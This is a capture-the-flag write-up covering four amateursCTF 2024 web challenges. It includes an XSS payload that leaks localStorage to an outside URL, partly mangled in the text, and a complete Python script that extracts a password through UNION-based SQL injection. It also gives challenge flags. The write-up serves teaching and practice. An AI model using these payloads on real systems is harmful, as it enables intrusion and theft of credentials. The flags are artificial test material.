

## Sculpture

### Description

smashmaster

Client side rendered python turtle sculptures, why don't we play around with them.

Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev Admin Bot(http://admin-bot.amt.rs/sculpture)

### Solution

So we have a web app that translates python turtle in graphics. It uses a technology called Skulpt which compiles Python into Javascript. In order for the python script to run it needs a runtime environment where the compiled code executes and its `skulpt.min.js` and `skulpt-stdlib.js` files.

We have a bot that contains the flag and browses to the domain: `https://amateurs-ctf-2024-sculpture-challenge.pages.dev`.

Since we are dealing with bots its certainly a XSS challenge, trying `print("<script>alert()</script>")` we were able to add the script tag but the alert didnt pop off. Lets try other tags like ``, `<iframe>` or `<svg>`.

Payload `print("")` pop off the alert so we are good to go.
Lets build a payload that steals cookies: `print("?flag='+localStorage.getItem('flag')>")`
Since it decodes from base64, we need to encode it: 

```js
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```
Flag: `amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}`

## One-shot

### Description

voxal
my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! http://one-shot.amt.rs

### Solution

The present web app is build in python and the flag is stored in `/app/flag.txt`.
The web app is using the following tech:
- flask
- gunicorn

The web app has 4 endpoints:
- GET `/`: Nothing here.
- POST `/new_session`: This endpoint is referred in the main endpoint(`/`) as the entrypoint. It basically creates a new table with a random id that contains a randomly generated password and a integer referred as `searched`. After that, it renders a page containing a mention to `/search` and the id generated when requesting this endpoint. Nothing we can do here.
- POST `/search`: 
  - Search endpoint receives two parameters: id and query. id its the one generated before and need to be 16 characters from the following list `1234567890abcdef`: `[1234567890abcdef]{16}`. 
  - It verifies if `searched` is more then 0, meaning we have already searched: `SELECT searched FROM table_{id}`. If it is then print `You have used your shot`.
  - If not, update to 1: `UPDATE table_{id} SET searched = 1` and makes the following query `query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")`. The query is vulnerable to sql injection by using the query parameter. After that, it will show only the first character of the query and the rest it will replace with `*`.
- POST `/guess`:
  - Guess endpoint receives an id and password as parameters. If we guess the password correctly for that id we get the flag. Otherwise, it will delete the table for that id. We can't do nothing here.
  
Basically what we need to do is create a fix id that we need to discover the password and use the vulnerable sql injection and other ids to grab each piece of the password of that id.

First, lets create two ids and try to grab the first character of the password from the other id.
The web app helps us here because it will fetch each entry we grab from the query: `{"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`

We created a fix id: `83eaa51857ba1b84`

After some testing we get the password from the fix id and the temp id we created using the sqli: `id=6c9490beb6f85fed&query=%' UNION select password from table_83eaa51857ba1b84 --`, the next step is trying to get the second character.

To extract the second character we use a function called substring: `select substring(password, 2, 1) from table_83eaa51857ba1b84` gets the second character.
So we build the final python script:

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import quote

url = "http://one-shot.amt.rs"

endpoint_new_session = "/new_session"
endpoint_search = "/search"
endpoint_guess = "/guess"

# Get an id
def get_temp_id():
    # Parse the HTML content
    res = requests.post(url+endpoint_new_session)
    soup = BeautifulSoup(res.text, 'html.parser')
    id = soup.find('input', {'name': 'id'})
    return id['value']

fix_id = get_temp_id()
fix_id_password = ""

# Get each character of the password
def get_password_character(temp_id, char_pos):
    payload = f"%' UNION select substring(password,{char_pos+1},1) from table_{fix_id} -- "

    data = {
    'id': temp_id,
    'query': payload
    }

    res = requests.post(url+endpoint_search, data=data)

    # Parse the HTML content
    soup = BeautifulSoup(res.text, 'html.parser')

    # Find all li elements
    li_elements = soup.find_all('li')

    if len(li_elements[0].text.strip()) == 1:
        return li_elements[0].text.strip()
    else:
        return li_elements[1].text.strip()

# Get the flag with the right id and password
def get_flag(fix_id_password):
    data = {
    'id': fix_id,
    'password': fix_id_password
    }

    res = requests.post(url+endpoint_guess, data=data)
    return res.text

for i in range(32):
    # create a temp id
    temp_id = get_temp_id()
    new_char = get_password_character(temp_id, i)
    fix_id_password = fix_id_password + new_char
    print(fix_id_password)


print(get_flag(fix_id_password))

```

Flag: `amateursCTF{go_union_select_a_life}`

## Denied

### Description

voxal
770 solves / 65 points
what options do i have?
<http://denied.amt.rs>

### Solution

The challenge was easy, we are presented with the following code:

```js
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```

If we use the get request we are returned with the response `BAD!`.
Using other request we get the flag, however we can't use all the requests. 
To see what requests we can use, we utilize the OPTIONS method which gives: GET and HEAD.




Using HEAD we get the flag: `amateursCTF{s0_m@ny_0ptions...}`


## Agile-rut

### Description

voxal
274 solves / 187 points
check out this cool font i made!
<http://agile-rut.amt.rs>
hint: if you get something that looks like the flag try pasting it into the box.

## Solution

This challenge presents us a simple webpage that changes our text to a font called Agile Rut. 
At first sight it does not make a request to the server and we thing we dont have nothing but if we change the css code that grabs the font to for example `index.html`:

```
@font-face {
            font-family: 'Agile Rut';
            src: url('index.html');
        }
```

We get the following error in the webpage:

`downloadable font: rejected by sanitizer (font-family: "Agile Rut" style:normal weight:400 stretch:100 src index:0) source: http://agile-rut.amt.rs/index.html`

If we enter a random page we get an error saying that it does not exist:

`downloadable font: download failed (font-family: "Agile Rut" style:normal weight:400 stretch:100 src index:0): status=2147746065 source: http://agile-rut.amt.rs/index.php`

Using a external source like: `https://mutually-cheerful-meerkat.ngrok-free.app` we get the first error: `rejected by sanitizer`.
Seems like we need to bypass it. The first thing i found was a technique called **CSS injection** <https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection#text-node-exfiltration-i-ligatures> however I couldn't do it.

The answer was within the font itself, after doing a strings against the otf file, we get the flag..
Another thing we could do, is using a website called <https://wakamaifondue.com/> and push the font to be analyzed, it will show all the capabilities.
doc: `https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_fonts/OpenType_fonts_guide#discovering_availability_of_features_in_fonts`

Flag: `amateursctf{0k_but_1_dont_like_the_jbmon0_===}`